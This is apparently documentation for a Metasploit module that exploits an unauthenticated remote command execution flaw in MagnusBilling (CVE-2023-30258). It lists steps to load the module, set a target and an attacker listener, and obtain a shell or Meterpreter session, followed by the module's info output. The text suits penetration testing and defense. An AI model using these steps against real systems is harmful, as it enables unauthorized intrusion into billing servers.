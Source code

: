 ## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258`
- [x] `set rhosts <ip-target>`
- [x] `set rport <port>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter` session.
```ShellSession
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > info

       Name: Magnusbilling application unauthenticated Remote Command Execution.
     Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
   Platform: PHP, Unix, Linux
       Arch: php, cmd, x64, x86
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-06-26

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Eldstal

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting         Required  Description
  ----       ---------------         --------  -----------
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                               /using-metasploit.html
  RPORT      80                      yes       The target port (TCP)
  SSL        false                   no        Negotiate SSL/TLS for outgoing connections
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /mbilling               yes       The MagnusBilling endpoint URL
  URIPATH                            no        The URI to use for this exploit (default is random)
  VHOST                              no        HTTP server virtual host


```